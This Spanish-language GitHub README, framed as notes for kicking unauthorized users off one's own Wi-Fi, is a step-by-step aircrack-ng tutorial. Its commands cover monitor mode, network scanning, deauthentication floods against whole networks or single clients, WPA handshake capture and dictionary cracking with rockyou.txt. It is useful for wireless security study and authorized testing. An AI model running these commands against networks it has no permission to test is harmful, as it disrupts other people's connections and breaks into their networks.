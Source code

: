 # Get off my wifi
+ Una serie de notas para sacar a los usuarios no autorizados de tu red WIFI.
+ A su vez muestra cómo hacer un ataque de diccionario a una red WIFI con aircrack-ng

# Teoria 


# Comandos aircrack-ng
Los siguientes comandos permiten:
+ Deautenticar a usuarios de la red WIFI
	+ Pasos 1-4, 6
+ Generar un ataque de diccionario para obtener la contraseña WIFI}
	+ Pasos 1-7
+ Salir del modo monitor
	+ Paso 8

## 1) Mostrar las interfaces
Opción principal
```
sudo airmon-ng
```

Otra opción
```
iwconfig
```

## 2) Deshabilitar cualquier proceso que pueda interferir con la captura de paquetes
```
sudo airmon-ng check kill
```

## 3) Habilitar el modo monitor/promiscuo de nuestra tarjeta de red
Método airmon
```
sudo airmon-ng start wlan0
```
* Cambiamos `wlan0` por el nombre de nuestra interfaz que se ha arrojado `sudo airmon-ng`

Otra opción
```
iw dev <interface> set monitor none
```

Otra opción
```
ifconfig <interface> down
iw dev <interface> set monitor none
ifconfig <interface> up
```


##### Si volvemos a correr el paso uno podremos ver que nuestra interfaz de red ahora se encuentra en modo monitor bajo el nombre de `wlan0mon` ó `wlan0`

## 4) Listar las redes que hay a nuestro alrederor
```
sudo airodump-ng wlan0mon
```
* wlan0mon = nombre_de_la_interfaz

Esto nos arrojará una pantalla con la siguiente información:
+ **BSSID:** Mac Address de nuestro router (punto de acceso)
+ **PWR:** Nivel de señal 
+ **Beacons:** Número de “paquetes anucio” o beacons enviadas por el AP. 
	+ Cada punto de acceso envia alrededor de diez beacons por segundo cuando el rate o velocidad es de 1M, (la más baja) de tal forma que se pueden recibir desde muy lejos.
+ **#Data:** Número de paquetes de datos capturados.
	+ (si tiene clave WEP, equivale tambien al número de IVs), incluyendo paquetes de datos broadcast (dirigidos a todos los clientes).
+ **#/s:** Número de paquetes de datos capturados por segundo calculando la media de los últimos 10 segundos.
+ **CH:** Canal
+ **MB:** Velocidad máxima soportada por el AP. 
	+ Si MB = 11, es 802.11b, 
	+ Si MB = 22es 802.11b+ 
	+ Y velocidades mayores son 802.11g. 
	+ El punto (despues del 54) indica que esa red soporta un preámbulo corto o “short preamble”.
+ **ENC:** Algoritmo de encriptación que se usa. 
	+ OPN = no existe encriptación (abierta)
	+ “WEP?” = WEP u otra (no se han capturado suficientes paquetes de datos para saber si es WEP o WPA/WPA2), 
	+ WEP (sin el interrogante) indica WEP estática o dinámica, 
	+ WPA o WPA2 en el caso de que se use TKIP o CCMP.
+ **CIPHER:** Detector cipher. Puede ser CCMP, WRAP, TKIP, WEP, WEP40, o WEP104.
+ **AUTH:** El protocolo de autenticación usado. Puede ser: 
	+ MGT
	+ PSK (clave precompartida)
	+ OPN (abierta).
+ **ESSID**	Tambien llamado “SSID”
	+ Puede estar en blanco si la ocultación del SSID está activada en el AP. 
	+ En este caso, airodump-ng intentará averiguar el SSID analizando paquetes “probe responses” y “association requests” (son paquetes enviados desde un cliente al AP).

Justo debajo

+ **STATION:** Dirección MAC de cada cliente asociado. 
+ **Lost:** El número de paquetes perdidos en los últimos 10 segundos.
+ **Frames:** El número de paquetes de datos enviados por el cliente.
+ **Probes:** Los ESSIDs a los cuales ha intentado conectarse el cliente.	

## 5) Capturamos el tráfico de la red

```
sudo airodump-ng -c 1 --bssid 36:0A:98:80:97:C3 --write airodump wlan0mon
```
+ **-c** canal
+ **--bssid** bssid
+ **--write** nombre_de_archivo

## 6) Ataque deauth

Ahora abrimos una nueva terminal e iniciamos el ataque deauth para desconectar todos los clientes conectados a la red. Ésto le ayudará en la captura del handshake. Ingrese el comando:

#### Deautenticación a todos los clientes de un WIFI

```
sudo aireplay-ng -0 10 -a 36:0A:98:80:97:C3 wlan0mon
```

+ **-0** Se utiliza para el ataque deauth
+ **10** Es el número de paquetes deauth para ser enviados
+ **-a** Es la dirección MAC de la red WiFi objetivo

#### Deautenticación a solamente un cliente de un WIFI

```
sudo aireplay-ng -0 10 -a 36:00:98:00:97:C3 -c 00:0A:FF:5F:FF:00 wlan0mon
```

+ **-0** Se utiliza para el ataque deauth
+ **10** Es el número de paquetes deauth para ser enviados
+ **-a** Es la dirección MAC de la red WiFi objetivo
+ **-e** Es el ESSID de la red objetivo, es decir, su nombre


Después de lanzar el ataque deauth y conseguir el HANDSHAKE WPA, pulse Ctrl+C .

## 7) Hacer fuerza bruta para averiguar el password

```
sudo aircrack-ng airodump-01.cap -w rockyou.txt
```

## 8) Quitar el modo monitor y volver a utilizar nuestro WIFI
Opción 1
```
# Detenemos el modo monitor
sudo airmon-ng stop wlan0mon

# Levantamos nuestra interfaz
sudo ifconfig wlan0 up

# Inciamos el servicio de red
sudo systemctl start NetworkManager
```

Opción 2
```
ifconfig <interfaz> down
iwconfig <interfaz> mode managed
ifconfig <interfaz> up
```

# Información complementaria
+ <a href="https://medium.com/@Packt_Pub/the-deauthentication-attack-7872c916ed2a" target="_blank">the-deauthentication-attack</a>
+ <a href="https://hackernoon.com/forcing-a-device-to-disconnect-from-wifi-using-a-deauthentication-attack-f664b9940142" target="_blank">Forcing a device to disconnect from WiFi using a deauthentication attack</a>
+ <a href="https://www.aircrack-ng.org/doku.php?id=deauthentication" target="_blank">Aircrack Deauthentication</a>
+ <a href="https://github.com/spacehuhn/esp8266_deauther" target="_blank">esp8266_deauther</a>
+ <a href="+ https://www.atareao.es/como/procesos-en-segundo-plano-en-linux/" target="_blank">PROCESOS EN SEGUNDO PLANO EN LINUX</a>
